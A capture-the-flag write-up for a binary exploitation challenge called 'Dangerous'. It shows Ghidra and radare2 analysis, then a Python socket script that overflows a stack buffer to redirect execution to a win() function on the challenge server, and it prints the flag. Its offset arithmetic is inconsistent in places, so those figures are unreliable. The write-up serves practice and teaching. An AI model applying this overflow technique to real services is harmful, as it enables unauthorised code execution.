


# Dangerous
75 points

Hey! Listen!

Connect here:

...

dangerous


## Flag 
```shell
flag{legend_of_zelda_overflow_of_time}
```

## Solution
Grab a copy of Ghidra if you haven't already (https://ghidra-sre.org/). If this is new to you, watch a few videos, read the docs, try some tutorials. Radar2 (https://github.com/radareorg/radare2) comes installed with Kali.

Firsts things first, file and strings:
```shell
kali@kali:~/Desktop$ file dangerous 
dangerous: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2b7e7edf071a5dd08228a996ed76400783fba08c, for GNU/Linux 3.2.0, stripped
kali@kali:~/Desktop$ strings -n 10  dangerous 
...
What's your name?
Uh-oh... something's not right... good luck...
./flag.txt
...
```

The "What's your name?"  and "./flag.txt" strings look promising. Find these in the binary with Ghidra. 

Function starting at 0x004011d6, let's call it main() and function starting at 0x00401312, let's call it win(). main() prints some stuff to the screen and gets the user's input. win() accesses 'flag.txt' and prints it. There is no connection between the two. Thus win() is an impossible jump. The only way to get to it is to force the jump or get a shell, something exploit-y. Other than that, the code is pretty simple. 

Let's move to dynamic analysis. Run radar2 and set a breakpoint close to the end of main():
```shell
kali@kali:~/Desktop$ r2 -d dangerous 
Process with PID 1386 started...
= attach 1386 1386
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
Warning: r_bin_file_hash: file exceeds bin.hashlimit
[0x7f67068be090]> db 0x0040130c
[0x7f67068be090]> dc
What's your name?

```

Enter some recognizable patten, I use 'a' on repeat. Not too many, don't want to break it yet. Hit enter and program will continue to the breakpoint.
```shell
It's dangerous to go alone! Take this, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

         █   
        ███  
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
      ███████                                                                                                                                                                                                                              
      █ ███ █                                                                                                                                                                                                                              
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
        ███                                                                                                                                                                                                                                
                                                                                                                                                                                                                                           
hit breakpoint at: 40130c  
```

Radar2 has a decent visual interface, access it using vv. 



Big offset between stack pointer and base pointer. What's in this space? Well, for one, our input. Really close to the base pointer and thus the return address for main().



Our input shows up at 0x7fffbe5ce918 and the base pointer is at 0x7ffbe5ceb00. 

0xeb00 - 0xe918 + 1 = 489 bytes. 

If we craft an input that is 489 bytes, plus 8 more to overwrite the base pointer then we can tack on the instruction we want to jump to when main() returns - i.e. win().
```python
import socket
from time import sleep

eip = b'\x12\x13\x40\x00\x00\x00\x00\x00' 
# 489 for the buffer to fill 
# and another 8 bytes to get pass the base pointer
c = 489 + 8 
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('jh2i.com', 50011))
sleep(0.25)
data = client.recv(5000)
print(data.decode())
text = ('a'*c).encode()
payload = text + eip + b'\n'
client.send(payload)
sleep(0.25)
data = client.recv(5000)
print(data.decode())
```

And what do we get for all our hard work? A flag!
